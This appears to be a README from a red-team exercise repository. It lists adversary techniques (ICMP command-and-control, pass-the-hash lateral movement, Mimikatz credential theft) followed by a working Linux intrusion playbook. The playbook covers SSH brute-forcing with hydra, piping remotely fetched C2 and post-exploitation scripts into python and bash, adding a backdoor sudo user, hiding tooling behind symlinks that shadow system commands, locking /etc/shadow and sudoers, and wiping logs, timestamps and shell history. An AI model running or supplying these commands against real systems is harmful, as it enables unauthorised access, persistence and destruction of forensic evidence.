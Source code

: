 # CS2020 repository

#### MSEL concepts:
##### Authenticated C2 via ICMP on Linux and Windows
##### Fallback channels using hardcoded IPs and calculated subnets
##### Proxied lateral movement using PTT/PTH via WMI, RPC/DCOM, SMB, and WinRM 
##### Defense evasion using in-memory payloads, encryption, timestamp modification, and byte randomization
##### Credential access using Mimikittenz, Mimikatz, Minidump, Rubeus, and InternalMonologue
##### Privilege escalation using process injection, parent process spoofing, and token theft

###### DMZ
```txt
# initial access
proxychains hydra -L <USERDICTIONARY> -P <PASSWORDDICTIONARY> <IP> ssh -u -V;

# on penetration, backup C2 and proxy
nohup curl --insecure -sv https://<IP>/c2_http_basic_server.py|python - & disown
nohup curl --insecure -sv https://<IP>/c2_python_proxy_server.py|python - & disown
ssh -f -N -D <IP>:65535 root@localhost

# edit proxychains.conf
localnet 127.0.0.0/255.0.0.0
socks4 <IP> <PORT> <PASSWORD>

# maintaining access, root user and SSH
# passwd root (out of scope)
adduser <c2_NAME>
usermod -aG sudo <c2_NAME>
ssh-keygen -t rsa

# post exploitation
curl --insecure -sv https://<IP>/redghost.sh| bash -
sysctl -w net.ipv4.icmp_echo_ignore_all=1
curl --insecure https://<IP>/icmp_basic_server -o c2_icmp_basic_server && chmod +x c2_icmp_basic_server
mkdir /bin/.usr/ && cd /bin/.usr/ && curl --insecure https://<IP>/bash_hide.sh -o c2_bash_hide.sh && chmod +x c2_bash_hide.sh

# edit c2_bash_hide.sh
THINGTOHIDE=c2

# edit ~/.bashrc
PATH=/bin/.usr/:${PATH}
# file located in first path /bin/.usr/c2_bash_hide.sh 
for f in "netstat" "iptables" "kill" "ps" "pgrep" "pkill" "ls" "rm" "rmdir" "passwd" "shutdown" "chmod" "sudo" "su" "cat" "useradd" "id" "ln" "unlink" "which" "gpasswd" "bash" "sh" "env" "echo" "history" "tcpdump" "chattr" "lsattr" "export" "mv" "grep" "egrep" "find"; do 
	ln -s /bin/.usr/c2_bash_hide.sh /bin/.usr/${f};
done;

# lock files, keep password, encrypt 
for f in "~/.bashrc" "/bin/.usr/c2_bash_hide.sh"  "/etc/shadow" "/etc/group" "/etc/sudoers" "/root/.ssh/id_rsa*" "/<c2_NAME>/.ssh/id_rsa*"; do 
  chattr +i ${f};
done;
openssl enc -aes-256-cbc -salt -pbkdf2 -in chattr -out chattr.tmp -k <PASSWORD> & mv chattr.tmp chattr;

# clear timestamps and logs
for f in `find /var/log/ -type f -name "*" 2>/dev/null`; do
  echo "" > ${f} 2>&1> /dev/null;
done;
for f in `find / -type f -name "*" 2>/dev/null`; do
  touch ${f} 2>&1> /dev/null;
done;
history -c && echo "" > ~/.bash_history
```
